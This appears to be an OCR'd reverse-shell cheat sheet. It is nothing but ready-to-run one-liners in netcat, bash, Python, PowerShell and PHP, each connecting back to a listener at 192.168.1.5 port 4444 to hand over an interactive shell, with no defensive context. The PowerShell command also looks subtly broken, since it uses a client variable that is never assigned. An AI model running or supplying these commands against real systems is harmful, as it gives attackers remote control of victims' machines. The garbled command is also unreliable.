 ### Reverse Shell Techniques

#### Netcat Reverse Shells
```bash
# Target machine (Linux)
nc -e /bin/bash 192.168.1.5 4444

# Target machine (Windows)
nc -e cmd.exe 192.168.1.5 4444

# If -e option is not available (Linux)
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.5 4444 >/tmp/f
```

#### Bash Reverse Shells
```bash
bash -i >& /dev/tcp/192.168.1.5/4444 0>&1

# Alternative
0<&196;exec 196<>/dev/tcp/192.168.1.5/4444; sh <&196 >&196 2>&196
```

#### Python Reverse Shells
```python
# Python 2
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.5",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# Python 3
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.5",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### PowerShell Reverse Shells
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("192.168.1.5",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

#### PHP Reverse Shells
```php
<?php
$sock=fsockopen("192.168.1.5",4444);
exec("/bin/sh -i <&3 >&3 2>&3");
?>
```
